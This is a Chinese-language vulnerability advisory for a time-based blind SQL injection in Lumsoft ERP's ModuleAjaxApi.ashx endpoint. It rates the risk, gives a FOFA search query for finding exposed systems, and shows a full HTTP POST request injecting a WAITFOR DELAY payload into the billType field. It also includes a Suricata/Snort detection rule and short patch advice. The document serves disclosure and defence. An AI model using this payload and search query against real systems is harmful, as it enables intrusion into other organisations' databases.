

# 郎速ERP-ModuleAjaxApi-sql注入

郎速ERP-ModuleAjaxApi-sql注入

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   ​**product=&quot;lumsoft-后台管理系统&quot;**

**POC/EXP：**

**step1**  延时注入

```
POST /Api/ModuleAjaxApi.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 84

ModuleId=1&ModuleType=0&billType=1'WAITFOR+DELAY'0:0:5'--+&method=GetFlowChartOption
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"朗速ERP - ModuleAjaxApi.ashx billType SQL注入漏洞 (WAITFOR DELAY时间盲注)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/Api/ModuleAjaxApi.ashx";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"billType="; nocase;
        content:"WAITFOR"; nocase; distance:0; within:50;
        content:"DELAY"; nocase; distance:0; within:20;
    metadata:
        service http,
        affected_product "朗速ERP",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000835;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
